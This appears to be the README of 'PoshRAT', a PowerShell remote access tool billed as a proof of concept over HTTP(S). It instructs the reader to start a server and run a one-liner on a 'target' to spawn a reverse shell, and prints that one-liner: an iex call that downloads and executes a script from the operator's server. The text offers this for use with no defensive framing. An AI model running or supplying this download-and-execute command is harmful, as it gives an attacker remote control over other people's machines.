 PoshRAT
=======

PowerShell RAT over HTTP(s)
Proof of Concept

Start the server on a device you control.
Execute the One-Liner Command on your target to spawn a Reverse Shell.

Have Fun...

iex (New-Object Net.WebClient).DownloadString(“http://127.0.0.1/connect”)
 


